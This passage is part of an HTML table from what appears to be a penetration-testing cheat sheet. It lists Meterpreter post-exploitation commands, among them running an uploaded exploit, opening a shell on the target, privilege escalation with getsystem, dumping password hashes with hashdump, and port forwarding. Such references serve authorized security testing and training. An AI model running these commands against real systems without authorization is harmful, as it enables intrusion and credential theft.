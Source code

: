         <p><code>execute -f c:\\windows\temp\exploit.exe</code></p>
      </td>
      <td>
            <p>Meterpreter run .exe on target - handy for executing uploaded exploits</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>execute -f cmd -c </code></p>
      </td>
      <td>
            <p>Creates new channel with cmd shell</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>ps</code></p>
      </td>
      <td>
	    <p>Meterpreter show processes</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>shell</code></p>
      </td>
      <td>
	    <p>Meterpreter get shell on the target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>getsystem</code></p>
      </td>
      <td>
	    <p>Meterpreter attempts priviledge escalation the target</p>
      </td>
    </tr>    
    <tr>
      <td>
        <p><code>hashdump</code></p>
      </td>
      <td>
	    <p>Meterpreter attempts to dump the hashes on the target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>portfwd add –l 3389 –p 3389 –r target</code></p>
      </td>
      <td>
	    <p>Meterpreter create port forward to target machine</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>portfwd delete –l 3389 –p 3389 –r target</code></p>
      </td>
      <td>
	    <p>Meterpreter delete port forward</p>
      </td>
    </tr>

